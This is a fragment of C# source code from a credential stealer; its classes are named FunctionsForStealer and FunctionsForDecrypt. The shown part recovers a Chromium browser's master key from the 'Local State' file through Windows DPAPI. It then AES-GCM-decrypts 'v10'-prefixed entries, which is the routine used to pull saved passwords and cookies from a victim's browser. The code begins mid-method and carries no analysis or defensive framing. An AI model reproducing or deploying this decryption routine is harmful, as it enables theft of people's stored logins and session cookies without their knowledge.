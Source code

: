 ```csharp
				string text3 = target(<>p__, target2(<>p__2, FunctionsForStealer.LocalStateKeys.<>o__4.<>p__0.Target(FunctionsForStealer.LocalStateKeys.<>o__4.<>p__0, obj)));
				byte[] array = Convert.FromBase64String(text3).Skip(5).ToArray<byte>();
				return ProtectedData.Unprotect(array, null, DataProtectionScope.CurrentUser);
			}
		}

		public class FunctionsForDecrypt
		{
	
			public static bool IsV10(byte[] data)
			{
				return Encoding.UTF8.GetString(data.Take(3).ToArray<byte>()) == "v10";
			}

			
			public static void Prepare(byte[] encryptedData, out byte[] nonce, out byte[] ciphertextTag)
			{
				nonce = new byte[12];
				ciphertextTag = new byte[encryptedData.Length - 3 - nonce.Length];
				Array.Copy(encryptedData, 3, nonce, 0, nonce.Length);
				Array.Copy(encryptedData, 3 + nonce.Length, ciphertextTag, 0, ciphertextTag.Length);
			}

		
			public static string Decrypt(byte[] encryptedBytes, byte[] key, byte[] iv)
			{
				string text = string.Empty;
				try
				{
					GcmBlockCipher gcmBlockCipher = new GcmBlockCipher(new AesEngine());
					AeadParameters aeadParameters = new AeadParameters(new KeyParameter(key), 128, iv, null);
					gcmBlockCipher.Init(false, aeadParameters);
					byte[] array = new byte[gcmBlockCipher.GetOutputSize(encryptedBytes.Length)];
					int num = gcmBlockCipher.ProcessBytes(encryptedBytes, 0, encryptedBytes.Length, array, 0);
					gcmBlockCipher.DoFinal(array, num);
					text = Encoding.UTF8.GetString(array).TrimEnd("\r\n\0".ToCharArray());
				}
				catch (Exception ex)
				{
					Console.WriteLine("from Decrypt!: " + ex.Message);
				}
				return text;
			}
		}
	}
}

```
